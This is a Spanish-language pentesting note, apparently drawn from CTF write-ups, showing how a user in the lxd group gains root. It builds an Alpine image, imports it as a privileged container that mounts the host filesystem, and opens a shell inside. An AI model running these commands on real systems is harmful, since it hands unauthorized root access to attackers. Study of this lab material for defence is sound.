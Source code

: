 echo &quot;[http://mirrors.tuna.tsinghua.edu.cn/alpine/](http://mirrors.tuna.tsinghua.edu.cn/alpine/)&quot;\&gt;/root/rootfs/usr/share/alpine-mirrors/MIRRORS.txt

sudo bash build-alpine

mv \&lt;nombrelargoreciengenerado\&gt; alpine.tgz

Luego copiar al destino.

╰─⠠⠵ scp alpine.tgz dale@team:

En maquina destino:

lxc image import ./alpine.tgz --alias myimage
 lxd init
 lxc init myimage mycontainer -c security.privileged=true
 lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
 lxc start mycontainer
 lxc exec mycontainer /bin/sh

#

[https://steflan-security.com/?p=2123](https://steflan-security.com/?p=2123)



## Método 2 (más explicado)

En caso de ejecutar id aparezca el usuario asociado a lxd podría ser vulnerable a un ataque al contenedor.

[https://www.exploit-db.com/exploits/46978](https://www.exploit-db.com/exploits/46978)

Los usuarios con el grupo lxd pueden crear contenedores en el sistema el cual puede ser usado para acceder al resto del los directorio y ganar acceso root en la máquina principal.



wget [https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine](https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine)
mkdir -p /root/rootfs/usr/share/alpine-mirrors/

echo &quot;[http://mirrors.tuna.tsinghua.edu.cn/alpine/](http://mirrors.tuna.tsinghua.edu.cn/alpine/)&quot;\&gt;/root/rootfs/usr/share/alpine-mirrors/MIRRORS.txt

sudo bash build-alpine

mv \&lt;nombrelargoreciengenerado\&gt; alpine.tgz

_Desde \&lt;_[_https://blog.szymex.pw/thm/breakoutthecage1.html_](https://blog.szymex.pw/thm/breakoutthecage1.html)_\&gt;_

After running this we can transfer the &quot;alpine-\*.tar.gz&quot; file to the machine and run the script

![](RackMultipart20210412-4-pcx9xb_html_ab7958491abb038.png)



![](RackMultipart20210412-4-pcx9xb_html_5e91e3a5b9c0b609.png)
